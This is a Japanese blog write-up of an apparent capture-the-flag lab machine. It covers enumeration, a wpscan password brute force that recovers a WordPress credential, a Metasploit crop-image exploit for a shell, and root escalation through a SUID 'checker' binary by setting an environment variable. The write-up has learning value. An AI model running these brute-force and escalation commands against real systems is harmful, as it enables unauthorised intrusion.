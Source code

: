 ```yaml
---
title: "Blog"
date: 2024-03-16T10:57:51+09:00
draft: false
---
```


### enum

- 22:ssh
- 80:http
- enum4linux
  - BillySMB という share がある
  - bjoel, smb というユーザーがある
- SMB
  - BillySMB にパスワード無しで入れる
  - よく分からん .txt と .mp4, .png しかない
  - steghide も特になし
- wpscan
  - ```wpscan --url http://10.10.208.138/ -e u```
    - ユーザ名が bjoel, kwheel
  - ```wpscan --url http://10.10.208.138 -U bjoel,kwheel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 64```
  - kwheel:cutiepie1
  - ssh はできない
- metasploit
  - ```search crop-image```
  - options で設定するとシェルがもらえる

### user.txt

- ```find / 2>/dev/null | grep user.txt```

``` shell
$ cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

- は？

### priviledge escalation

- ```find / -perm -u=s -type f 2>/dev/null```
- 
``` shell
ls -la /usr/sbin/checker
-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

``` shell
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
```

- admin という環境変数があるのでこれを設定してみる

``` shell
ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash")
```

- あとは実行してシェルをもらうと root になる
